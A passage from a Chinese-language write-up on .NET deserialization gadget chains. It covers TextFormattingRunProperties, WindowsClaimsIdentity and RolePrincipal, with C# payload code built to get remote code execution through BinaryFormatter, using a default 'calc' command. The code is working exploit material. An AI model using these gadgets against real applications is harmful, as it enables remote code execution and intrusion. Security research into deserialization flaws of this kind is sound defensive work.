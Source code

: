 ```
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            _xaml = gadget(cmd);
        }
        public TextFormattingRunPropertiesMarshal()
        {
            _xaml = gadget("calc");
        }
    }
}
```

##### WindowsClaimsIdentity+TextFormattingRunProperties

**思路**：原理一样，这个通过`_actor`字段，在反序列化构造函数中，会反序列化其`_actor`字段

限制：该类所在的命名空间不在GAC([Global Assembly Cache](https://docs.microsoft.com/en-us/dotnet/framework/app-domains/gac))中，限制较大。

payload:

```
public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(WindowsClaimsIdentity));
            info.AddValue("_actor", B64Payload);
            info.AddValue("m_userToken", new IntPtr(0));
            info.AddValue("_label", null);
            info.AddValue("_nameClaimType", null);
            info.AddValue("_roleClaimType", null);
        }
```

##### RolePrincipal+TextFormattingRunProperties

**调用的类**：RolePrincipal（继承了ClaimsPrincipal类）+ClaimsPrincipal+TextFormattingRunProperties+ObjectDataProvider

**Sink关键点**：binaryFormatter.Deserialize

**思路**：RolePrincipal类反序列化构造函数，调用父类的Identities字段，而父类ClaimsPrincipal在反序列化构造时将`info.GetString("System.Security.ClaimsPrincipal.Identities")`取出的值，base64转byte数组之后，直接BinaryFormatter反序列化造成RCE。

payload:

```
using Microsoft.VisualStudio.Text.Formatting;
using System;
using System.Collections.Generic;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Linq;
using System.Reflection;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using System.Security.Claims;
using System.Text;
using System.Threading.Tasks;
using System.Web.UI;
```